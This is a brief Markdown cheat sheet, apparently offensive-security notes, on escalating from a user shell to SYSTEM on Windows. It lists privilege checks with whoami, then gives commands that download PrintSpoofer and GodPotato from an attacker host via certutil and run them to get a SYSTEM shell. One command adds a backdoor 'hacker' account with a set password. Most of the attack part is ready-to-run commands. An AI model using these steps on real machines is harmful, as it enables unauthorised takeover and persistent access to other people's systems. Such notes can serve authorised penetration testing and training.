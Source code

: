 # Windows Privilege Escalation

**Purpose:** Only privilege escalation on Windows. Assumes you have user-level shell.

---

## Priority 1: Check Privileges

### What Privileges Do You Have?

```powershell
# Check all privileges
whoami /priv

# Check groups
whoami /groups

# Full information
whoami /all
```

### Key Privileges to Look For

**SeImpersonatePrivilege** or **SeAssignPrimaryTokenPrivilege:**
- **Impact:** Instant SYSTEM
- **Tool:** PrintSpoofer or GodPotato

---

## SeImpersonate/SeAssignPrimaryToken Exploitation

### Using PrintSpoofer

```powershell
# Download
certutil -urlcache -f http://ATTACKER_IP/PrintSpoofer64.exe PrintSpoofer.exe

# Execute for SYSTEM shell
.\PrintSpoofer.exe -i -c cmd

# Verify
whoami
# nt authority\system
```

### Using GodPotato

```powershell
# Download
certutil -urlcache -f http://ATTACKER_IP/GodPotato-NET4.exe GodPotato.exe

# Execute
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd "cmd /c net user hacker Password123! /add"
```
